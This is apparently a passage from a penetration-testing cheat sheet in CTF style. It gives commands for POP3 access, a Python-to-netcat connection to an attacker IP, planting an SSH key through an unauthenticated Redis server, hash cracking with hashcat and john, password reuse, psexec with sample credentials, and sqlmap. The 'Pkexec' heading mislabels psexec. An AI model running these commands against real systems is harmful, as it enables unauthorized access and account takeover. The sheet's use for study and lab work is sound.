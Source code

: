 ```text
LIST
RETR
DELE
RSET
TOP
QUIT

# Login into POP3 with telnet
telnet <target> 110
```
### Privilege Escalation With Python
```python
python -c 'import os; os.system("nc <IP> <PORT>");'
```
### Redis SSH Key Upload
Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa

Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt

Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit

Save the public key to the authorized_keys file on redis server:
```
root@Urahara:~# redis-cli -h 10.85.0.52
# on the redis server
config set dir /home/test/.ssh/
config set dbfilename "authorized_keys"
save
```
Then, ssh onto the machine: ssh -i id_rsa root@10.10.10.60


### Password/Passphrase Cracking
```bash
hashcat -m <hash mode> <hashfile> <wordlist_file>
# example hashes
hashcat --example

# convert encrypted ssh key to hash crackable by john
ssh2john <private key> > output.hash
john <hash_file> --wordlist=<wordlist_file>

# list supported formats
john --list=formats
```
### When Password Has Been Obtained
* attempt to use the password for every possible account
* attempt to use the password to login to different services (ssh, http, etc)
* if the password has a year, and it does not work, try changing the year to the current year

### Pkexec
```bash
psexec.py <username>:'<password>'@<target>
# Example
psexec.py pentest:'P3nT3st!'@netmon.htb
```
### SQLMap
```a
sqlmap -r [file_with_HTTP_request_for_login_page] --level 5 --risk
```
### Generating RSA Keys With OpenSSL
```
#  generating private key
```